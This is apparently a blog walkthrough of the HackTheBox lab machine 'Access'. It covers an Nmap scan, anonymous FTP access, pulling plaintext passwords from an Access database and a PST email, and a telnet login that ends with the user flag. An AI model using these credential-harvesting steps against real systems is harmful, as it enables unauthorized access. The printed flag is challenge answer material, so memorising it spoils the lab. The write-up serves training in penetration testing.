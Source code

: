 ```yaml
---
title: Access
categories: [Walkthroughs,HackTheBox,Easy]
tags: [windows,ftp,anonymous access]
image:
  path: https://labs.hackthebox.com/storage/avatars/adef7ad3d015a1fbc5235d5a201ca7d1.png
  alt: 
---
```


Access is an **easy** difficulty machine, that highlights how machines associated with the physical security of an environment may not themselves be secure. Also highlighted is how accessible FTP/file shares can often lead to getting a foothold or lateral movement. It teaches techniques for identifying and exploiting saved credentials.

## Reconnaissance

### Port scanning
I'll start by running an Nmap service and version scan with the default scripts. This will help identify any open ports and provide information about the services running on them, giving us valuable targets for further exploration.
> Always save the Nmap output in a text file for future reference. This practice is invaluable, as repeatedly running Nmap can be time-consuming and unnecessary.
{: .prompt-tip }

```shell
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ nmap -sC -sV -p- -Pn  --min-rate 10000 -oA nmap_report 10.129.243.223
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-04 23:11 IST
Nmap scan report for 10.129.243.223
Host is up (0.11s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 200.40 seconds
```
Revewing the `Nmap` report, we are able to find 3 interesting ports that we can try to get our foothold-

|Interesting Port | Service | Version |
|-----------------|---------|---------|
|21/tcp           |ftp      |Microsoft ftpd |
|23/tcp             |telnet | NA    |
|80/tcp         | http | Microsoft-IIS/7.5

### FTP Anonymous Access

Anonymous login is allowed on the target.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ ftp ftp://anonymous:''@10.129.243.223:21
Connected to 10.129.243.223.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
230 User logged in.
Remote system type is Windows_NT.
200 Type set to I.
ftp> 
```
Inside the FTP, there were 2 folders found-
1. Backups
2. Engineer

Inside the Backups folder, we are able to find an access database file called **backup.mdb** and inside the `Engineer` folder, there is a `zip` file called **Access Control.zip**.

We are going to download both of these files locally to our attacker machine foro further analysis.

```shell
ftp> get backup.mdb
local: backup.mdb remote: backup.mdb
200 PORT command successful.
125 Data connection already open; Transfer starting.
100% |****************************************|  5520 KiB  857.28 KiB/s    00:00 ETA
226 Transfer complete.
5652480 bytes received in 00:06 (857.27 KiB/s)
```

```shell
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-24-18  12:16AM                10870 Access Control.zip
226 Transfer complete.
ftp> get "Access Control.zip"
local: Access Control.zip remote: Access Control.zip
200 PORT command successful.
125 Data connection already open; Transfer starting.
100% |****************************************| 10870       33.14 KiB/s    00:00 ETA
226 Transfer complete.
10870 bytes received in 00:00 (33.09 KiB/s)
```

The zip file is password protected and we do not know the password yet, so we will start with the `backup.mdb` file, and for that, we need `mdbtools` installed on our attacker machine. 

```shell
sudo apt install mdbtools
```

> A `.mdb` file is a Microsoft Access database file that was the default file format for Access versions up to 2003. MDB stands for Microsoft Database. 
{: .prompt-info}

There are lots of tables inside the databases, and not everything looks interesting, so we are going to narrow down our focus to user tables.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ mdb-tables -1  backup.mdb |grep user   
auth_user
auth_user_groups
auth_user_user_permissions
userinfo_attarea
```

Out of all, `auth_user` looks the most interesting. Maybe it stores the user authentication information.

Exporting the data using `mdb-export`, we found the credentials for 4 users.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ mdb-export backup.mdb auth_user 
id,username,password,Status,last_login,RoleID,Remark
25,"admin","admin",1,"08/23/18 21:11:47",26,
27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
28,"backup_admin","admin",1,"08/23/18 21:14:02",26,
```

Using the password for `engineer`, which is `access4u@security`, I was able to extract the zip file, and there was only 1 file found inside called `Access Control.pst`.

> A PST file, or Personal Storage Table file, is a proprietary file format used by Microsoft to store items like emails, contacts, and calendar events: 
{: .prompt-info}

To ead the emails inside of the `.pst` file, there are lots of options, but we are goign to go with a lighweight solution. `readpst` seems to be the best one. Let's install it.

```shell
sudo apt install readpst
```
We are able to find 2 email.

```shell
──(frodo㉿kali)-[~/hack-the-box/access]
└─$ readpst Access\ Control.pst   
Opening PST file and indexes...
Processing Folder "Deleted Items"
	"Access Control" - 2 items done, 0 items skipped.
```

Let's look at the email 

```shell
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ cat Access\ Control.mbox 
From "john@megacorp.com" Fri Aug 24 05:14:07 2018
Status: RO
From: john@megacorp.com <john@megacorp.com>
Subject: MegaCorp Access Control System "security" account
To: 'security@accesscontrolsystems.com'
Date: Thu, 23 Aug 2018 23:44:07 +0000
MIME-Version: 1.0
Content-Type: multipart/mixed;
	boundary="--boundary-LibPST-iamunique-1651771506_-_-"


----boundary-LibPST-iamunique-1651771506_-_-
Content-Type: multipart/alternative;
	boundary="alt---boundary-LibPST-iamunique-1651771506_-_-"

--alt---boundary-LibPST-iamunique-1651771506_-_-
Content-Type: text/plain; charset="utf-8"

Hi there,

 

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

 

Regards,

John
```

It looks like password for one of the accounts called `security` was changed to `4Cc3ssC0ntr0ller`.


## Telnet

Let's `telnet` to the target machine with the `security` credentials and try to get a shell.

```shell       
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ telnet 10.129.243.223
Trying 10.129.243.223...
Connected to 10.129.243.223.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>cd Desktop

C:\Users\security\Desktop>type user.txt
c82f427b80a0f0ad1fb46932d1531b45
```










